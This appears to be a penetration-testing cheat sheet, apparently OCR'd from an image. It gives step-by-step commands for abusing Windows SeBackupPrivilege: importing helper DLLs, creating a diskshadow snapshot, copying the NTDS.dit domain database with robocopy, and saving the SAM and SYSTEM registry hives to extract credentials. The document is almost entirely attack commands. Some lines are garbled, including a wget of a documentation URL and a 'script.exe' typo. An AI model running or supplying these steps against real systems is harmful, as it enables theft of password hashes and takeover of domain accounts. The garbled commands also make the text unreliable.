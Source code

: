 - Import modules:
```powershell
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
```

- Enable SeBackupPrivilege:
```powershell
Set-SeBackupPrivilege
Get-SeBackupPrivilege
```

- Copy Protected file:
```powershell
Copy-FileSeBackupPrivilege 'C:\Confidential\2021 Contract.txt' .\Contract.txt
```

**Copying NTDS.dit:**

- Download Robocopy :
```sh
wget https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/robocopy
```

- Use Diskshadow :
```powershell
diskshadow.exe

DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
DISKSHADOW> end backup
DISKSHADOW> exit
#You can put all this command in a script.txt and exec diskshadow.exe -s script.exe
```

- Run Robocopy:
```cmd
robocopy /B E:\Windows\NTDS .\ntds ntds.dit
```

- Copying NTDS.dit Locally :
```powershell
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
```

#SeBackupPrivilege :
**Extract local account credentials :** 

- Extracting Sytem and Sam : 
```cmd
reg save HKLM\SYSTEM SYSTEM.SAV
reg save HKLM\SAM SAM.SAV
```
